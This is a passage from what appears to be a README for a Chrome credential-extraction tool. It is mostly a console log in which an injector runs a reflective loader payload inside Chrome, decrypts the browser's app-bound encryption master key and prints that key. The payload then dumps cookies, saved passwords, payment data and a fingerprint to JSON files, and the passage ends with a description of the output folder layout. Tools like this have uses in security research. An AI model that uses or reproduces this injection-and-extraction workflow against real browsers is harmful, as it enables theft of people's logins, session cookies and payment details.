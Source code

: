 ```bash
[#] Creating new thread in target to execute ReflectiveLoader.
[#] Successfully created new thread for payload.
[#] New thread created for payload. Main thread remains suspended.
[#] Waiting for payload to connect to named pipe.
[#] Payload connected to named pipe.
[#] Sent message to pipe: VERBOSE_TRUE
[#] Sent message to pipe: FINGERPRINT_TRUE
[#] Sent message to pipe: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output
[#] Waiting for payload execution. (Pipe: \\.\pipe\chrome.sync.9707.22756.1BE8)

[*] Decryption process started for Chrome
[+] COM library initialized (APARTMENTTHREADED).
[*] Reading Local State file: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[*] Attempting to decrypt master key via Chrome's COM server...
[+] Decrypted AES Key: 3fa14dc988a34c85bdb872159b739634cb7e56f8e34449c1494297b9b629d094
[*] Discovering browser profiles in: C:\Users\ah\AppData\Local\Google\Chrome\User Data
[+] Found 2 profile(s).
[*] Processing profile: Default
     [*] 380 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\cookies.json
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\passwords.json
[*] Processing profile: Profile 1
     [*] 131 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\cookies.json
     [*] 2 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\passwords.json
     [*] 1 payments extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\payments.json
[*] Extraction complete: 2 successful, 0 failed.
[*] Extracting browser fingerprint data...
[*] Discovering browser profiles in: C:\Users\ah\AppData\Local\Google\Chrome\User Data
[+] Found 2 profile(s).
[+] Browser fingerprint extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\fingerprint.json
[#] Payload completion signal received.

[#] Payload signaled completion or pipe interaction ended.
[#] Terminating browser PID=21708 via direct syscall.
[#] Chrome terminated by injector.
[+] Extraction completed successfully
```

## 📂 Data Extraction

Once decryption completes, data is saved to the specified output path (defaulting to `.\output\` if not specified via `--output-path`). Files are organized as follows:

**Base Path:** `YOUR_CHOSEN_PATH` (e.g., `.\output\` or the path you provide)
**Structure:** <Base Path>/<BrowserName>/<ProfileName>/<data_type>.json
